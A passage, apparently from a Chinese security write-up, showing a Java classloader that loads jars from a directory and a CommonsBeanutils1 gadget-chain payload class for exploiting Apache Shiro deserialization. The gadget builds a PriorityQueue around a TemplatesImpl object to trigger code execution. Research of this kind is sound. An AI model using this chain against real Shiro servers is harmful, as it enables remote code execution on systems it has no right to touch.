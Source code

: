 ```java

    private void tryLoadJarInDir(String dirPath) {
        File dir = new File(dirPath);
        // 自动加载目录下的jar包
        if (dir.exists() && dir.isDirectory()) {
            for (File file : dir.listFiles()) {
                if (file.isFile() && file.getName().endsWith(".jar")) {
                    this.addURL(file);
                    continue;
                }
            }
        }
    }

    private void addURL(File file) {
        try {
            super.addURL(new URL("file", null, file.getCanonicalPath()));
        } catch (MalformedURLException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}

```
![image-20211122172440217](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//40u24er40ec/40u24er40ec.png)<br />

### Shiro反序列化漏洞实现



```java
public class CommonsBeanutils1_192 implements ObjectPayload {
    @Override
    public Object getObject(Object templates) throws Exception {
        StandardExecutorClassLoader classLoader = new StandardExecutorClassLoader("1.9.2");
        Class u = classLoader.loadClass("org.apache.commons.beanutils.BeanComparator");

        Object beanComparator = u.getDeclaredConstructor(String.class).newInstance("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue(2, (Comparator<? super Object>)beanComparator);

        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        Reflections.setFieldValue(beanComparator, "property", "outputProperties");

        Object[] queueArray = (Object[])Reflections.getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = templates;
        return queue;
    }
}
```
